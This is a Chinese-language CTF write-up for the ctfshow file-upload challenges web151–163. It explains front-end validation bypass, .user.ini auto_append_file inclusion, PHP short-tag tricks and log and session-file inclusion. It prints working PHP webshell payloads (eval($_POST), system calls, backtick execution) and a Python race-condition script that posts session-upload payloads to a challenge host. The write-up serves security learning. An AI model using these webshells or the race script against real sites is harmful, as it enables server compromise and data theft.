 ```yaml
---
layout: post
title: ctfshow-文件上传
date: 2021-03-09
tags: ["web"]
---
```


[toc]

## web151-152

考点：前端验证
题目提示前台校验不可靠，那么猜测应该是前端验证后缀名。
上传1.php提示是不支持的格式，上传1.png成功。
用burp抓包，上传1.png，抓包后修改成1.php后上传。
成功上传到/upload/1.php，访问即可。

## web153

考点：php的.user.ini机制
php允许每一个目录都有独特的.user.ini文件给当前目录进行配置。
此处可以利用auto_append_file和auto_prepend_file两个设置，其中第一个是设置在任意php文件末尾包含一个文件，第二个是在开头。
因此我们可以上传一个png文件里面写上我们的木马，然后再上传一个.user.ini（这里后台校验没有校验ini后缀），里面写上包含这个png文件。
注意，由于只能设置php文件末尾或者开头包含，需要有一个php文件才能利用这个漏洞。
因此即先上传：
[![](http://ltfa1l.top/wp-content/uploads/2021/03/wp_editor_md_5183e5662603ff45fafa4556afb81f36.jpg)](wp_editor_md_5183e5662603ff45fafa4556afb81f36.jpg)
再上传：
[![](http://ltfa1l.top/wp-content/uploads/2021/03/wp_editor_md_22f6df521da37e5d575c78e4b1888c99.jpg)](wp_editor_md_22f6df521da37e5d575c78e4b1888c99.jpg)

## web154-155

考点：php短标签
看了羽师傅的wp，短标签的几种写法这里列一下：
- `<?echo '123';?>`
这个的前提是开启配置参数short_open_tags=on
- `<?=(表达式)?>`
等价于`<?php echo(表达式)?>`
这种短标签是不需要开启参数设置的
- `<% echo '123';%>`
7.0以下版本中，开启asp_tags=on即可使用，7.0及以上无法使用。
- `<script language="php">echo '123';</script>`
7.0以下可以使用，不需要开启设置。
因此此处我们可以选择 `<?=(表达式)?>` 绕过。
图片内容：

    <?=(eval($_POST[1]))?>

剩下的做法同153.

## web156

据说是过滤了[]，这个换成{}也是可以的，甚至可以不写一句话木马，直接cve就行。其余同上题

## web157-158

又不知道过滤了什么，干脆不一句话，直接cve了。

    <?=(system("tac ../fl*"))?>

## web159

应该是过滤了括号，我们知道

    <?=`tac ../flag.php` 

是等价于

    <? echo `tac ../flag.php`?>

的。所以直接这个payload。

## web160

又过滤了很多很多，导致基本所以CVE都无了，看了羽师傅是包含的日志文件，同时由于关键字log被过滤了，所以拼接的log关键字。（等等，这个是怎么知道的呢）
图片文件：
`<?=include"/var/lo"."g/nginx/access.l"."og"?>`

## web161

检查了图片文件头，即在文件开头添加"GIF89A"即可。其与做法同上题。

## web162-163

做不来看师傅们的wp不是很正常？
考点：包含session文件。
这个之前也有涉及过，此处就不多说了。
思路就是上传.user.ini，我这里直接用这个文件
```auto_append_file="/var/sess_fx"```了。
然后条件竞争就行。

    import requests
    import threading
    import io
    session = requests.Session()
    sess = 'fx'
    url = "http://20333522-d271-42ab-8642-b83805c336fc.challenge.ctf.show:8080/"
    data1 = {
        'PHP_SESSION_UPLOAD_PROGRESS': "<?php system('tac ../fla*');?>"
    }
    cookie = {
        'PHPSESSID': sess
    }
    files = {
        'file': 'fx'
    }

    def write():
        while event.isSet():
            session.post(url, data=data1, files=files, cookies=cookie)

    def read():
        while event.isSet():
            response = session.get(url + 'upload/')
            if 'flag' in response.text:
                print(response.text)
                event.clear()

    if __name__ == '__main__':
        event = threading.Event()
        event.set()
        for i in range(0, 30):
            threading.Thread(target=write).start()

        for i in range(0, 30):
            threading.Thread(target=read).start()
    